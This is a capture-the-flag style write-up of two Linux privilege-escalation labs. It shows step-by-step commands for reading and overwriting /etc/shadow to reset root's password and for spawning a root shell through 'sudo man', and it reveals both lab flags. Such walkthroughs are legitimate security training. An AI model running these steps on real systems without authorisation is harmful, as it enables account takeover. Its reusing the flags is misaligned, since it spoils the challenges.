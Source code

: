 # 🔬Linux Privilege Escalation

## Lab 1

> 🔬 [Permissions Matter!](https://www.attackdefense.com/challengedetailsnoauth?cid=75)
>
> - Direct access to the target machine via `student` unprivileged user
> - Find specific **Linux Privilege escalation vulnerabilities manually**
> - Some files permissions are not set properly, use them to elevate privileges.

### Local Enumeration

![](.gitbook/assets/image-20230429120411574.png)

### Misconfigured Permissions Files

- Look for **world writable files**
  - *Find a file that could help to elevate privileges*

```bash
find / -not -type l -perm -o+w
```

![find / -not -type l -perm -o+w](.gitbook/assets/image-20230429120640470.png)

> ❗ `/etc/shadow` is writable by everyone!

```bash
ls -l /etc/shadow
cat /etc/shadow

# "root" user doesn't have a password specified
```

![](.gitbook/assets/image-20230429121216978.png)

### Privilege Escalation

- `/etc/shadow` stores the passwords in an encrypted format, so the `root` password need to be replaced with a hashed password

```bash
# Generate a password entry
openssl passwd -1 -salt abc password123
	$1$abc$UWUoROXzUCsLsVzI0R2et.

# Edit and paste the hashed password into the /etc/shadow file
vim /etc/shadow
```

![](.gitbook/assets/image-20230429121433738.png)

- Switch to the `root` user

```bash
su
# type "password123" password for "root" user

cd
ls
cat flag
```



<details>
<summary>Reveal Flag: 🚩</summary>


`e62ab67ddff744d60cbb6232feaefc4d`

![](.gitbook/assets/image-20230429121642209.png)

</details>

------

## Lab 2

> 🔬 [Editing Gone Wrong](https://www.attackdefense.com/challengedetailsnoauth?cid=80)
>
> - Direct access to the target machine via `student` unprivileged user
> - Find **misconfigured `sudo` privileges**

### Local Enumeration

![](.gitbook/assets/image-20230429120411574.png)

### Misconfigured SUDO Privileges

- Find [`setuid`](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) programs

```bash
 find / -user root -perm -4000 -exec ls -ldb {} \;
 
 find / -perm -u=s -type f 2>/dev/null
```

![](.gitbook/assets/image-20230429122610598.png)

> 📌 Useful tool - [FallOfSudo](https://github.com/CyberOne-TeamARES/FallOfSudo)

- Identify what commands the `student` user can run

```bash
sudo -l
```

![](.gitbook/assets/image-20230429122043004.png)

> ❗ **`/usr/bin/man`** binary can be run ***with `SUDO` privileges, without providing a `root` user password***

- This can happen on Linux systems for specific binaries that other users have to run with `SUDO` privileges. It looks *harmless*, but it can allow users to spawn bash privileged sessions, since **the specific binary can be utilized to execute specific commands**. Those commands are executed with the binary `root` privileges.

### Privilege Escalation

```bash
sudo man ls
```

- In the `man` scrolling page, using the **`!`** a `bash` can be spawned

```bash
!/bin/bash

# "root" bash sessions is received
```

![!/bin/bash](.gitbook/assets/image-20230429123257366.png)

- Retrieve the flag with the **`root`** user



<details>
<summary>Reveal Flag: 🚩</summary>



`74f5cc752947ec8a522f9c49453b8e9a`

![](.gitbook/assets/image-20230429123424840.png)

</details>

------

